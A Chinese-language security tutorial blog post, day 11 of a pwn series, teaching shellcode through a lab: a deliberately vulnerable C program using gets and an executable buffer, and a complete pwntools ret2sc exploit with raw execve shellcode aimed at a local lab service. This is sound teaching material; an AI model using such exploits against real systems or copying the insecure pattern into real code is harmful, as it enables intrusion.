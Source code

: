 ```yaml
---
title: "Day11－Shellcode"
date: 2024-09-25
draft: false
tags: ["iron-man-2024", "pwn", "2024"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## 前言

從今天開始，內容會變得更加困難。之前的題目可能有留一個後門函式，讓你可以直接開啟 shell，或是使用 `system` 函式來方便後續的操作。然而，現實中基本不會有這種情況，所以我們需要學習更多漏洞利用的方法，才能更符合實際的需求。

## Shellcode

根據之前提到的編譯過程，經過簡化後，最終會變成下圖所示的形式：

![image](/images/iron2024/day11_image1.png)

簡單來說，最後真正執行的部分是機器碼，而這正是本章節要教授的內容：Shellcode。之所以稱為 Shellcode，是因為我們透過編寫 Assembly 程式碼，將參數寫入指定的位置，並最終呼叫 `syscall`，來達成我們的目標，例如開啟 shell 或讀取特定檔案。


## Syscall

`syscall` 即為 System Call，是用來與 Kernel 進行溝通的呼叫。在 CTF 中，常見的有以下兩種：

- `execve("/bin/sh", NULL, NULL)`
- `open`、`read`、`write`

這些可以分別用來啟動 shell 或進行任意的檔案讀寫。這個[網站](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md)可以幫助查詢呼叫各種 `syscall` 時應該將各個暫存器設置為什麼值，這與前面提到的 Calling Convention 是相關的。

## 如何編寫 Shellcode？

編寫 Shellcode 有幾種方法，以下是幾個選項：

1. 自己寫 Assembly，並透過 `pwntools` 進行轉換。
2. 從 [shellcode database](https://shell-storm.org/shellcode/index.html) 中找到需要的 Shellcode。
3. 使用 `pwntools` 中的 [shellcraft](https://docs.pwntools.com/en/stable/shellcraft/amd64.html)，記得指定 `context.arch`。

## Lab

查看以下程式原始碼：

```c
#include<stdio.h>
#include <unistd.h>
#include <sys/mman.h>
char shellcode[0x100];
int main(){
    setvbuf(stdout, 0, _IONBF, 0);
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stderr, 0, _IONBF, 0);
    unsigned long addr = (unsigned long)&shellcode & ~0xfff;
    mprotect((void *)addr, 0x1000, PROT_EXEC | PROT_READ | PROT_WRITE);
    printf("Give me shellcode: ");
    read(0, shellcode, 0x100);
    printf("Overflow me: ");
    char buffer[0x10];
    gets(buffer);
    printf("Bye!\n");
    return 0;
}
```

使用以下指令進行編譯：

```bash
gcc src/orw.c -o ./orw/share/orw -fno-stack-protector -no-pie
```

你可以自行嘗試這個題目，或繼續閱讀以下解題步驟。

## Writeup

首先可以看到程式使用了 `gets` 函式，存在 Buffer Overflow 的風險。根據編譯參數可以確認程式關閉了 PIE 與 Canary，此外程式還使用了 `mprotect` 來修改記憶體的權限，將 `shellcode` 變數的記憶體區域設為可讀、可寫、可執行。這意味著，即使程式開啟了 NX 保護，我們仍然可以寫入並執行 Shellcode。這是因為新版本的 OS 在 `.bss` 段僅有讀取權限，因此為了這個 Lab，我們才修改了權限。

基於上述觀察，我們可以整理出兩個重點：

1. 我們可以將 Shellcode 寫入變數中。
2. 由於沒有開啟 PIE，可以透過 `gets` 的 Buffer Overflow 將 Return Address 覆寫為 Shellcode 的位址。

為了達成這些目標我們需要確定幾件事情

1. 如何編寫 Shellcode？
2. 如何找到 `shellcode` 變數的位址？

前面提到我們可以使用 `pwntools` 的 `shellcraft` 產生 Shellcode，但需要注意的是，`shellcraft` 產生的 Shellcode 有時候可能會過長，這時就可能需要使用 `shellcode database` 或自行撰寫短一點的 Shellcode，來符合題目對字元數量的限制。例如，以下的 AMD64 開啟 shell 的 Shellcode 長度為 48 字節，已經足夠應付這道題目。

![image](/images/iron2024/day11_image2.png)

接下來，我們需要確定如何找到 `shellcode` 變數的位址。你可以使用 `objdump` 來查看，但這裡我使用另一個工具 `nm`，它可以顯示檔案的符號資訊。透過執行 `nm ret2sc | grep "shellcode"`，可以輕鬆得知 `shellcode` 的位址為 `0x404080`。

![image](/images/iron2024/day11_image3.png)

到此為止，我們已經掌握了所有獲取 Shell 的關鍵資訊，接下來可以開始撰寫 Exploit。

完整 exploit：
以下是完整的 Exploit 程式碼，我也附上另一個 Shellcode，供讀者測試。

```python
from pwn import *
context.arch = 'amd64'
#r = process('../ret2sc/share/ret2sc')
r = remote('127.0.0.1', 10003)
shellcode = asm(shellcraft.sh())
#shellcode = b'\31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
r.sendlineafter(b': ', shellcode)
payload = b'A' * (0x20 + 8) + p64(0x404080)
r.sendlineafter(b': ', payload)
r.recvuntil(b'!\n')
r.interactive()
```

solved！！

![image](/images/iron2024/day11_image4.png)
